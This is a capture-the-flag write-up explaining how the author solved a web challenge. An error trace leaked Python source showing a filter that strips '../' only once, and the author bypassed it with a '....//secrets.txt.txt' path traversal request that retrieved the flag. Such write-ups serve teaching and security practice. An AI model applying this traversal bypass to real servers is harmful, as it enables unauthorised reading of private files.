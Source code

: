 # How I Parsed your JSON (868 pts)

![HowIParsedyourJSON](img/howiparsedyourjson.png)

This challenge is quite interesting because I was wrong at first. When I saw the **SELECT** query, column, and table, I immediately concluded that it was an **SQL Injection** vulnerability

I tried `/select?record=*&container=employees` and it shows all the information as it was actually dumped, but everything is useless

Next, I changed to `/select?record=*&container[]=employees`, add square brackets to turn it into array. This gives me a bunch of errors and also, leak a part of source code

While analyzing this source code, I saw something that make me doubt about my initial conclusion:

```python
File "/app/app.py", line 18, in select

@app.route('/select')

def select():
    container_name = request.args.get('container')
    record_name = request.args.get('record')
    container_name = clean_container_name(container_name)
                     ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
    container_path = os.path.join('containers/', container_name)
    try:
        with open(container_path, 'r') as container_file:
            if record_name == '*':

File "/app/app.py", line 36, in clean_container_name

    return render_template('index.html', data=return_data, container=container_name)

def clean_container_name(n):

    n = os.path.splitext(n)[0]
        ^^^^^^^^^^^^^^^^^^^
    n = n.replace('../', '')
    return n
```

I realized that this is actually not an **SQL Injection** but a **Path Traversal** vulnerability

Look carefully, I saw that it was trying to open a file based on the `container` param and maybe if `record` param is `*`? ¯\_(ツ)_/¯

In `clean_container_name` function, it removes the file extension and also filters out `../`

However, it only removes these once, so we can easily bypass by doubling it like `....//`

Combine all of these, I tested `/select?record=*&container=....//secrets.txt.txt` and I got the flag

![flag](img/howiparsedyourjson-flag.png)

`Flag: CIT{235da65aa6444e27}`
